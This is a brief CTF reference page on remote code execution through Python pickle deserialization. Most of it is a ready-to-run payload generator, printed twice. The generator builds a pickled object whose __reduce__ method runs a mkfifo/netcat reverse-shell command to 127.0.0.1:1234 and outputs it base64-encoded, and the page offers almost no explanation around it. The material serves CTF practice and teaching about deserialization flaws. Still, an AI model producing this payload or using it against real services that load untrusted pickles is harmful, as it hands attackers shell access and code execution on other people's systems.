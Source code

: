 ```yaml
---
title: "Pickle"
description: "Exploit Python's insecure object deserialization through the pickle module for remote code execution."
date: 2025-10-06
draft: false
weight: 20
categories: ["Web"]
tags: ["pickle", "python", "rce", "serialization", "ctf"]
authors: ["CTF.Support Team"]
summary: "Understand how Python pickle deserialization can lead to arbitrary code execution when loading untrusted data."
aliases: ["/web/python/pickle/"]
slug: "pickle"
toc: true
---
```


## Introduction

The Python `pickle` module serializes and deserializes objects.
When loading user-supplied pickle data, arbitrary code execution can occur.

## Example Payload

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Python's [pickle](https://docs.python.org/3/library/pickle.html) module is used to serialize and deserialize Python objects.

## RCE

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Source: [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
